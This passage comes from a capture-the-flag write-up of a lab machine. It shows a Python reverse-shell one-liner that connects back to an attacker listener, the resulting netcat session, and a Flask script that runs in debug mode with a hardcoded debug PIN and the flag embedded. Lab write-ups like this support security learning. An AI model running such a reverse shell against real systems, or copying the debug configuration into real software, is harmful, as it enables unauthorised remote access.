 ```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.5",9001));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

After executing, I got the reverse shell and found a directory named flag. Inside the flag directory, there was a python script named <b>ctf2.py</b>
```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...                                                   
connect to [192.168.1.5] from (UNKNOWN) [192.168.1.3] 45062
webpy@muzzy:~$ ls -lah                                                        
ls -lah                                                                       
total 32K                                                                     
drwx------ 4 webpy webpy 4.0K Feb 25 01:40 .     
drwxr-xr-x 7 root  root  4.0K Feb 25 01:24 ..      
-rwx------ 1 webpy webpy  381 Feb 25 01:51 .bash_history   
-rwx------ 1 webpy webpy 3.7K Feb 25 01:15 .bashrc                                 
drwx------ 2 webpy webpy 4.0K Feb 25 01:19 flag                                    
drwx------ 3 webpy webpy 4.0K Feb 25 01:19 .local                                  
-rwx------ 1 webpy webpy  807 Feb 25 01:15 .profile                                
-rwx------ 1 webpy webpy   66 Feb 25 01:26 .selected_editor                        
webpy@muzzy:~$ cd flag         
cd flag    
webpy@muzzy:~/flag$ ls
ls                     
ctf2.py              
```

Our second flag was hidden right inside the script: <br><b>N$cTF{R34D_F!L3_/home/webssti/noflag.txt}</b>

```python
import os
from flask import Flask
app = Flask(__name__)
@app.route('/')
def aws_console():
        print("Welcome to the Muzzy's World")
if __name__ == '__main__':
    # os.environ['WERKZEUG_DEBUG_PIN'] = 'off'
    # os.environ.set('WERKZEUG_DEBUG_PIN') = 'Muzzy'
    # app.secret_key = '123-456-789'
    os.environ['WERKZEUG_DEBUG_PIN'] = '123-456-789'
    app.config['FLAG'] = 'N$cTF{R34D_F!L3_/home/webssti/noflag.txt}'
    app.run(host='0.0.0.0', port=8989, debug=True, threaded=True)

webpy@muzzy:~/flag$ 
```

## Challenge 3
